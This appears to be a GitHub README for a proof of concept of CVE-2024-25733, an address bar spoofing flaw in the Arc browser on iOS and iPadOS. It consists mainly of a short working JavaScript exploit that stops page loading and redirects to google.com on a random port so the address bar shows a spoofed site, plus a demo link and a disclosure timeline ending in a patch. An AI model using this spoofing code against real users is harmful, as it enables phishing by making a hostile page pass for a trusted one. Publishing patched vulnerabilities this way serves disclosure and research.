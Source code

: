 # ARC-Browser-Address-Bar-Spoofing-PoC (CVE-2024-25733)
ARC Browser Address Bar Spoofing PoC - iOS/iPadOS

## Exploit PoC (Proof of Concept)

```html
<script>
    function spoof() {
        setTimeout(() => {
            window.stop();
            let randomPort;
            do {
                randomPort = Math.floor(Math.random() * 1000);
            } while (randomPort === 0 || randomPort === 443);
            document.location = "https://google.com:" + randomPort + "/";
        }, 300);
    }
    spoof();
</script>
```
<br>
<br>


## DEMO

<a href="https://github.com/hackintoanetwork/ARC-Browser-Address-Bar-Spoofing-PoC/raw/main/PoC.mp4">PoC.mp4</a>
<br>
<br>


## TimeLine

 - 2024-01-25 : Vulnerability reported to The Browser Company of New York
 - 2024-01-25 : Recognized as a security vulnerability
 - 2024-02-13 : Patched in the latest release
